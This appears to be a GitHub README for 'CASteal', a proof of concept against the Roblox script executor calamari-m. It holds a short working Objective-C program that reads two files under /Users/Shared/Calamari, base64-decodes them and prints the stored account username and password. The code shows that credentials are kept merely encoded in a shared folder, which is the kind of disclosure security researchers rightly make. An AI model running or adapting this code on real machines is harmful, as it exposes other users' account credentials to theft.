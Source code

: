 # CASteal A.K.A. Pulling a fast one on calamari-m
## CASteal is a proof of concept for a security vulnerability in all versions of calamari-m for roblox
```mm
#import <Foundation/Foundation.h>
int main() {
    printf("Heres ur calamari account\nUsername: %s\nPassword: %s\n",[[[NSString alloc] initWithData:[[NSData alloc] initWithBase64EncodedString:[NSString stringWithContentsOfFile:@"/Users/Shared/Calamari/GY" encoding:NSUTF8StringEncoding error:nil] options:0] encoding:NSUTF8StringEncoding] UTF8String],[[[NSString alloc] initWithData:[[NSData alloc] initWithBase64EncodedString:[NSString stringWithContentsOfFile:@"/Users/Shared/Calamari/NGV" encoding:NSUTF8StringEncoding error:nil] options:0] encoding:NSUTF8StringEncoding] UTF8String]);
}
```
a minified version of the proof of concept is shown above.
